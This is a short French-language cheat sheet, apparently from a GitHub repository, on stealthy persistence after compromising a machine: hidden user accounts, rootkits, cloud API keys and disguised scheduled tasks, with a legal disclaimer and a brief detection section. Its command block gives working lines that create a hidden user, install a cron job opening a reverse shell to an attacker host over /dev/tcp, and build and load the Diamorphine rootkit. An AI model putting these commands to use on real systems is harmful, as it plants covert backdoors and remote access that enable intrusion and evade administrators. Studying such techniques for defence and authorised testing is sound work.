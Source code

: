 # Persistence Furtive

> ⚠️ **Avertissement légal et éthique** :
> Les techniques décrites ici sont à but pédagogique et doivent être utilisées uniquement dans un environnement de test ou avec une autorisation explicite. Toute utilisation non autorisée est illégale.

## Qu’est-ce que la persistence furtive ?
C’est l’art de maintenir un accès à une machine de façon discrète, en évitant la détection par les administrateurs ou les outils de sécurité.

## Techniques courantes

### 1. **Backdoors cachées**
- Ajout de comptes utilisateurs “fantômes”
- Modification de scripts de démarrage (cron, .bashrc, services systemd)

### 2. **Rootkits et hooks**
- Installation de rootkits pour masquer des processus, fichiers ou connexions
- Utilisation de modules noyau malveillants

### 3. **Persistence dans le cloud**
- Création de clés API ou de comptes secondaires dans AWS/Azure
- Modification de scripts d’auto-scaling ou de déploiement

### 4. **Tâches planifiées furtives**
- Cron jobs avec noms trompeurs ou horaires aléatoires
- Tâches Windows planifiées avec description “système”

## Exemples de commandes
```bash
# Ajout d’un utilisateur caché sous Linux
useradd -M -s /bin/false .hiddenuser

# Cron job discret
(echo "*/37 * * * * bash -i >& /dev/tcp/attacker_ip/4444 0>&1") | crontab -

# Installation d’un rootkit (ex : Diamorphine)
git clone https://github.com/m0nad/Diamorphine.git
cd Diamorphine && make && insmod diamorphine.ko
```

## Défense et détection
- Surveiller les nouveaux comptes, services, tâches planifiées
- Utiliser des outils d’intégrité (AIDE, Tripwire)
- Scanner les modules noyau et rootkits (chkrootkit, rkhunter)

## Pour aller plus loin
- [Diamorphine Rootkit](https://github.com/m0nad/Diamorphine)
- [APT Notes - Persistence](https://github.com/aptnotes/data/blob/master/methods/persistence.md)

*Cette fiche sera enrichie avec de nouvelles techniques. Propose tes trouvailles !* 